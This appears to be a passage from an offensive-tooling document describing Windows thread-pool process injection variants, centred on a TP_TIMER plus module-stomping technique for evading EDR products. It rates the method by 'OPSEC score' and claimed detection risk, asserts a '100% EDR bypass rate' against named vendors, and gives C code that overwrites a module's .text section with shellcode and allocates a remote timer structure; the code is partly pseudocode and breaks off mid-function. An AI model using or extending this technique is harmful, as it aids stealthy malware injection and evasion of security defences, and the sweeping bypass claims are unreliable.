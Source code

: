 **Method**: Abuse Windows Thread Pools to insert work items into target processes without traditional injection APIs. Shellcode resides in legitimate module memory via module stomping.

**Critical Innovation**: **100% EDR bypass rate** documented against CrowdStrike, SentinelOne, Palo Alto, and Microsoft Defender. Achieves this by:
1. No traditional injection APIs (OpenProcess/VirtualAllocEx/CreateRemoteThread)
2. No unbacked memory (shellcode in legitimate DLL .text section)
3. No new threads (execution via existing thread pool workers)

**The Eight Variants**:
1. **TP_WORK**: Worker factory injection
2. **TP_WAIT**: APC-less execution
3. **TP_IO**: Completion port hijacking
4. **TP_ALPC**: Message queue injection
5. **TP_JOB**: Job object manipulation
6. **TP_DIRECT**: Worker thread control
7. **TP_TIMER + Module Stomping** ⭐ (Primary - combines timer queue with DLL overwriting)
8. **TP_RESERVATION**: Remote thread pool reservation

**Variant 7 (TP_TIMER + Module Stomping) Details**:

**Advantages**:
- **100% bypass rate** (documented by SafeBreach Labs 2023-2024)
- Zero traditional injection APIs used
- Shellcode in legitimate module memory (e.g., kernelbase.dll .text section)
- Thread pool execution appears as native Windows activity
- Detection risk: 0-5%

**Disadvantages**:
- High complexity (requires undocumented thread pool internals)
- Module restoration required for stability
- Target process must have suitable DLL for stomping

**OPSEC Score**: 10/10

**Code Pattern** (Variant 7 - TP_TIMER):
```c
// 1. Find suitable module for stomping
BOOL FindStompModule(HANDLE hProcess, MODULE_INFO* pInfo) {
    // Prefer kernelbase.dll, kernel32.dll, ntdll.dll
    EnumProcessModules(hProcess, modules, sizeof(modules), &needed);

    for (each module) {
        if (module == "kernelbase.dll") {
            // Parse PE headers, get .text section
            GetTextSection(module, &pInfo->textAddr, &pInfo->textSize);
            return TRUE;
        }
    }
}

// 2. Backup and stomp module .text section
BOOL StompModule(HANDLE hProcess, MODULE_INFO* pInfo, PVOID shellcode, SIZE_T size) {
    // Backup original .text
    ReadProcessMemory(hProcess, pInfo->textAddr, backup, pInfo->textSize, &read);

    // Write shellcode to .text
    VirtualProtectEx(hProcess, pInfo->textAddr, size, PAGE_EXECUTE_READWRITE, &old);
    WriteProcessMemory(hProcess, pInfo->textAddr, shellcode, size, &written);
    VirtualProtectEx(hProcess, pInfo->textAddr, size, PAGE_EXECUTE_READ, &old);
}

// 3. Create TP_TIMER work item
BOOL CreateTPTimer(HANDLE hProcess, PVOID callback, PVOID* pTimer) {
    // Allocate TP_TIMER structure in remote process
    PVOID pRemoteTimer = VirtualAllocEx(hProcess, NULL, sizeof(TP_TIMER),
                                         MEM_COMMIT, PAGE_READWRITE);
```